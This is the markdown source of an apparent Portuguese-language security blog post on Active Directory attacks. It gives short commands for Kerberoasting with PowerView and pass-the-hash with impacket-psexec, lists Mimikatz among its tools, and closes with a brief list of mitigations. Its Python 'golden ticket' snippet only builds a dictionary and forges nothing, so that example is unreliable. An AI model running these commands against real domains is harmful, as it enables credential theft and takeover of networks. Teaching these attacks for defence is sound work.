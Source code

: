 ```yaml
---
title: "Advanced Exploitation Techniques"
excerpt: "Deep dive into advanced Active Directory exploitation techniques and mitigation strategies..."
image: "https://images.unsplash.com/photo-1526374965328-7f61d4dc18c5?auto=format&fit=crop&q=80"
tags: ["Active Directory", "Exploitation"]
author: "lucas"
date: "2024-01-23"
---
```


# Advanced Active Directory Exploitation

Neste post, vamos explorar técnicas avançadas de exploração do Active Directory e como se proteger contra elas.

## Kerberoasting Attack

O Kerberoasting é uma técnica que explora o protocolo Kerberos para obter credenciais:

\`\`\`powershell

# Exemplo de comando para extrair tickets

Get-DomainUser -SPN | Get-DomainSPNTicket -Format Hashcat
\`\`\`

## Pass-the-Hash

Uma técnica clássica que permite reutilizar hashes NTLM:

\`\`\`bash

# Usando o Impacket para PtH

impacket-psexec DOMAIN/Administrator@TARGET -hashes :HASH
\`\`\`

## Golden Ticket Attack

O ataque Golden Ticket é um dos mais poderosos:

\`\`\`python

# Exemplo de código para criar um Golden Ticket

def create_golden_ticket(domain_sid, krbtgt_hash):
ticket = {
'domain_sid': domain_sid,
'krbtgt_hash': krbtgt_hash,
'user_id': 500, # Admin
'groups': [512, 513, 518, 519] # Domain Admin groups
}
return ticket
\`\`\`

## Mitigação

Para se proteger contra esses ataques:

1. Implementar PAM (Privileged Access Management)
2. Usar autenticação multi-fator
3. Monitorar eventos suspeitos
4. Realizar auditorias regulares

## Ferramentas Úteis

- BloodHound para mapeamento
- Mimikatz para extração de credenciais
- PowerView para enumeração
- CrackMapExec para testes

## Conclusão

A segurança do Active Directory é crítica e requer atenção constante. Mantenha-se atualizado com as últimas técnicas e implemente as melhores práticas de segurança.
